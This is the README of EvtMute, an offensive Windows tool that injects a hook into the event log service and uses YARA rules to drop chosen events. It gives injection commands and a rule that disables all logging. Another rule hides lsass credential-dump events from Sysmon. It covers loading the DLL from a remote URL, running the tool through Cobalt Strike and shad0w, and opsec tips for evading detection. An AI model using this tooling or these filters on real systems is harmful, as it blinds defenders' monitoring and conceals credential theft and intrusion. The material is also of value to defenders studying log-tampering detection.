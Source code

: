 # EvtMute

This is a tool that allows you to offensively use [YARA](http://virustotal.github.io/yara/) to apply a filter to the events being reported by windows event logging.

## Usage

Grap the latest verison from [here](https://github.com/bats3c/EvtMute/releases/tag/v1.0). `EvtMuteHook.dll` contains the core functionality, once it is injected it will apply a temporary filter which will allow all events to be reported, this filter can be dynamically updated without having to reinject. I've written `SharpEvtMute.exe` which is a C# assembly that can easily run via `execute` in shad0w or `execute-assembly` in cobalt strike. I will be writing a native version in C for much better intergration with shad0w.

### Loading the DLL

This version removes the embedded DLL (to get around the size restrictions of execute-assembly). The DLL can be loaded from disk, or over the network, using the -d flag eg:

```
    .\SharpEvtMute.exe -i -d "c:\windows\temp\dll.tmp"
    .\SharpEvtMute.exe -i -d "\\localhost\c$\windows\temp'dll.tmp"
    .\SharpEvtMute.exe -i -d "https://gist.github.com/some/gist/raw"
```

Note that the location must be accessible by the SYSTEM account. Beware proxies and remote UNC paths. 

Encoded DLL can be found at https://gist.githubusercontent.com/two06/1d25ec78e08b88b07b6f26be5ee88ddc/raw/e18ab66dee94d6d0b0fbfa6742cea58d18d9ed9d/EvtSvcHook

### Disabling Logging

A trivial use case would be to disable event logging system wide. To do this we can use the following yara rule.

    rule disable { condition: true }

We will need to start by injecting the hook into the event service.

    .\SharpEvtMute.exe --Inject

![Inject Hook](img/hookinject.png)

Now that the hook is placed we can add the filter.

    .\SharpEvtMute.exe --Filter "rule disable { condition: true }"

![Inject Hook](img/addfilter.png)

Now all events will be dropped by the event service.

### Complex Filters

Filters can be dynamically changed without having to reinject a hook. This makes it quick and easy to update the active filter.

An example of a more complex filter would be this. It is capable of blocking the events related to a lsass memory dump from being reported by sysmon.

```
rule block_lsass_dump {
    meta:
        author = "@_batsec_"
        description = "Prevent lsass dumping being reported by sysmon"
    strings:
        $provider = "Microsoft-Windows-Sysmon"
        $image = "lsass.exe" nocase
        $access = "GrantedAccess"
        $type = "0x1fffff"
    condition:
        all of them
}
```

With a complex rule like this it is much harder to condense it into a single line. This is why I added the ability to give base64 encoded rules.

The rule can easily be converted to base64 from a linux command line.

    base64 -w 0 YaraFilters/lsassdump.yar | echo $(</dev/stdin)

Then using the `--Encoded` flag we can pass it as a filter

![Encoded Filter](img/encrule.png)

#### Opsec Considerations

When injecting the hook `SharpEvtMute.exe` will call `CreateRemoteThread` and this call is made before the hook is placed so it will be reported by Sysmon. This is because the injection feature of `SharpEvtMute.exe` should only be used as a PoC. I recommend manually injecting `EvtMuteHook.dll` into the event logging service when stealth is important.

It's pid can be found by running `SharpEvtMute.exe --Pid`. The hook can be placed by manually injecting the shellcode (run `make` in EvtMuteBin) via your C2 framework of choice, e.g `shinject` in shad0w.

It is also worth mentioning that the hook will use a named pipe to update filters. The named pipe is called `EvtMuteHook_Rule_Pipe` (this named can be changed easily). There is a rule hard baked into the hook to ensure that any events including this name will be dropped automatically but it will still be an IOC having it listening, so I recommend changing it.

## Community Filters

If you create some useful filters feel free to make a pull request to the `YaraFilters` directory. It would be cool to have a good collection of filters to hide common actions that everyone can benefit from.
